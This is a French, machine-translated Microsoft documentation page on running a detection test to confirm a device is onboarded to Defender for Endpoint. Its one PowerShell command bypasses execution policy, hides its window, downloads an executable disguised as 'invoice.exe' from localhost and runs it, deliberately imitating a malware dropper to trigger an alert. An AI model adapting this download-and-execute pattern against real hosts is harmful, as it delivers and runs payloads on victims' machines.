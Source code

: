 ```yaml
---
title: Exécuter un test de détection sur un appareil pour vérifier qu’il a été correctement intégré à Microsoft Defender pour le point de terminaison
description: Exécutez le script de test de détection sur un appareil récemment intégré au service Microsoft Defender for Endpoint pour vérifier qu’il est correctement ajouté.
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 63c75ccb3ce8d3063235763986d5b9e85969ef45
ms.sourcegitcommit: 1ef30b82d97bd998149235dc69d3c0e450e95285
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 09/22/2021
ms.locfileid: "59477634"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a>Exécuter un test de détection sur un appareil Microsoft Defender pour point de terminaison nouvellement intégré

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**S’applique à :**
- Versions Windows 10 pris en charge
- Windows Server 2012 R2
- Windows Server 2016
- Windows Serveur, version 1803
- Windows Server, 2019
- [Microsoft Defender pour point de terminaison](https://go.microsoft.com/fwlink/?linkid=2154037)
- [Microsoft 365 Defender](https://go.microsoft.com/fwlink/?linkid=2118804)

> Vous voulez découvrir Microsoft Defender pour point de terminaison ? [Inscrivez-vous pour bénéficier d’un essai gratuit.](https://signup.microsoft.com/create-account/signup?products=7f379fee-c4f9-4278-b0a1-e4c8c2fcdf7e&ru=https://aka.ms/MDEp2OpenTrial?ocid=docs-wdatp-exposedapis-abovefoldlink)

Lorsque vous ajoutez un appareil au service Microsoft Defender for Endpoint pour la gestion, il s’agit également d’appareils d’intégration. L’intégration permet aux appareils de signaler des signaux sur leur état d’état au service.

La vérification ou la vérification de l’ajout réussi d’un appareil au service est une étape essentielle de l’ensemble du processus de déploiement. Il garantit que tous les appareils attendus sont gérés. 

## <a name="verify-microsoft-defender-for-endpoint-onboarding-of-a-device-using-a-powershell-detection-test"></a>Vérifier l’intégration de Microsoft Defender pour endpoint d’un appareil à l’aide d’un test de détection PowerShell

Exécutez le script PowerShell suivant sur un appareil nouvellement intégré pour vérifier qu’il est correctement signalé au service Defender for Endpoint.

1. Créez un dossier : « C:\test-MDATP-test ».
2. Ouvrez une invite de ligne de commande avec élévation de niveaux sur l’appareil et exécutez le script :

   1. Accéder à **Démarrer** et taper **cmd**.

   1. Cliquez avec le bouton droit **sur Invite de** commandes et **sélectionnez Exécuter en tant qu’administrateur.**

      ![Fenêtre menu Démarrer pointant sur Exécuter en tant qu’administrateur.](images/run-as-admin.png)

3. À l’invite, copiez et exécutez la commande suivante :

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

La fenêtre d’invite de commandes se ferme automatiquement. Si elle réussit, le test de détection est marqué comme terminé et une nouvelle alerte s’affiche dans le portail pour l’appareil intégré dans environ 10 minutes.

## <a name="related-topics"></a>Sujets associés

- [Intégrer des appareils Windows 10](configure-endpoints.md)
- [Serveurs intégrés](configure-server-endpoints.md)
- [Résoudre les problèmes d’intégration de Microsoft Defender pour les points de terminaison](/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
